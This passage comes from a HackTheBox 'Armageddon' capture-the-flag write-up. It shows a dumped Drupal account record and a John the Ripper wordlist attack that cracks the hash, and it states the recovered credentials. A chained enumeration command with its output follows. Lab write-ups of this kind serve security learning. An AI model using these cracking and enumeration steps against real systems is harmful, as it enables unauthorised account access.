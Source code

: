 ```text
timezone: Europe/London                                                                                   
language:                                        
picture: 0                                                                                               
init: admin@armageddon.eu                                                                             
data: a:1:{s:7:"overlay";i:1;}  
			
```

Now that I had the users hash, I tried to crack it using JohnTheRipper:

```bash
vagrant@ko:~/Desktop/HackTheBox/Armageddon$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:00 DONE (2021-04-15 09:31) 3.225g/s 774.1p/s 774.1c/s 774.1C/s tiffany..chris
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Success! As shown above, I now had new credentials which I could use to authenticate to the host: `brucetherealadmin:booboo`.


## Privilege Escalation using BruceTheRealAdmin


<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Armageddon/img5.png"  style="width: 80%" />
</p>


Since I had access to the host, I started off with doing some basic enumeration:

```bash
[brucetherealadmin@armageddon ~]$ echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a; echo " ";echo "groups:";groups;
 
uname -a:
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 
hostname:
armageddon.htb
 
id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
 
ifconfig:
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.233  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7648:5ea1:5371:b3b5  prefixlen 64  scopeid 0x20<link>
```